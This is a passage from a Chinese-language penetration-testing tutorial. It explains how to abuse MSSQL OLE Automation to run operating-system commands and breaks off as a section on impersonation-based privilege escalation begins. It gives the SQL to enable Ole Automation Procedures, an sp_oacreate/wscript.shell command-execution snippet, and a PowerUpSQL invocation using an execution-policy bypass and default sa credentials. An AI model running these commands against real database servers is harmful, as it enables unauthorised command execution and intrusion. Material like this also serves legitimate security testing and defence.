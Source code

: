 OLE 代表对象链接和嵌入。Microsoft 开发这项技术是为了让应用程序更轻松地共享数据。因此，自动化使应用程序能够操纵在其他应用程序中实现的对象。该自动化服务器通过 COM 接口展示其功能；对于不同的应用程序来读取它们，它进一步帮助它们通过检索对象和使用其服务来自动化其属性。

### 开启 OLE 自动化

查询是否开启

```php
EXEC sp_configure 'Ole Automation Procedures'; 
GO
```

config\_value 和 run\_value 均为0 这意味着 OLE 自动化已禁用  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-308dbb5c32803e329ec3ae54626e503137d21e7d.png)  
开启 OLE 自动化

```php
sp_configure 'show advanced options', 1; 
GO 
RECONFIGURE; 
GO 
sp_configure 'Ole Automation Procedures', 1; 
GO 
RECONFIGURE; 
GO
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-cb20895e6a9071696c03859b9dbbcb7c72aba89f.png)  
执行命令，利用这种方式执行命令没用回显，只能输出到文件中

```php
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\\Windows\\System32\\cmd.exe /c whoami /all > C:\\Users\\Administrator\\Desktop\\1.txt';
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6ee5ecea74818f6378f1c273e1c0283e7284c529.png)

### 使用PowerUpSQL执行

```php
powershell
powershell -ep bypass
Invoke-SQLOSCmdOle -Username sa -Password admin -Instance "192.168.3.130,1433" -Command "whoami /all" -Verbose
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-cebcde3be8c310e9bcb248d9ea03c1149dd996b0.png)

用户权限提升之模拟
=========

MSSQL Impersonate 命令是一种根据其他用户名进行身份验证以执行系统查询的方法。为此，它通常与 CREATE USER 语句结合使用。当您使用模拟帐户时，SQL Server 会检查是否拥有查询引用的所有数据库的权限。

### 开启用户模拟
